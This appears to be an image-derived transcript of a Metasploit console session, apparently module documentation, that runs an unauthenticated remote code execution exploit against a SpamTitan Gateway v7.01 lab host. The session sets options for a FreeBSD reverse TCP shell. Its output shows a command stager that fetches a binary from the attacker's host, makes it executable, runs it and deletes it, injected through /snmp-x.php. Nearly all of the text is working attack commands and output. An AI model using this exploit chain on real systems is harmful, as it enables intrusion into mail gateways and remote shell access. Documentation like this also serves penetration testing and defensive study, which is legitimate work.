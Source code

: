 ### SpamTitan Gateway v7.01 - target 2 (FreeBSD Dropper - x86)

```
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > set target 2
target => 2
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > show options

Module options (exploit/freebsd/webapp/spamtitan_unauth_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ALLOWEDIP                   no        The IP address that will be allowed to query the injected `extend` command. This IP will be added to the SNMP configuration file on the target. This is typically this host IP address, but can be different if your are in a NAT'ed network. If not set, `LHOST` will be used instead. If `LHOST` is not set, it will default to `127.0.0.1`.
   COMMUNITY  BTMlXXtt         no        The SNMP Community String to use (random string by default)
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RETRIES    1                yes       SNMP Retries
   RHOSTS     172.16.60.101    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (UDP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to SpamTitan
   TIMEOUT    1                yes       SNMP Timeout
   URIPATH                     no        The URI to use for this exploit (default is random)
   VERSION    1                yes       SNMP Version <1/2c>
   VHOST                       no        HTTP server virtual host


Payload options (bsd/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.60.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   FreeBSD Dropper (x86)

msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > run

[*] Started reverse TCP handler on 172.16.60.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Check if /snmp-x.php exists
[+] The target appears to be vulnerable.
[*] Using URL: http://0.0.0.0:8080/EtQflZ
[*] Local IP: http://192.168.1.75:8080/EtQflZ
[*] Generated command stager: ["fetch -qo /tmp/uTJGnSFj http://172.16.60.1:8080/EtQflZ", "chmod +x /tmp/uTJGnSFj", "/tmp/uTJGnSFj", "rm -f /tmp/uTJGnSFj"]
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'fetch\ -qo\ /tmp/uTJGnSFj\ http://172.16.60.1:8080/EtQflZ&'#
```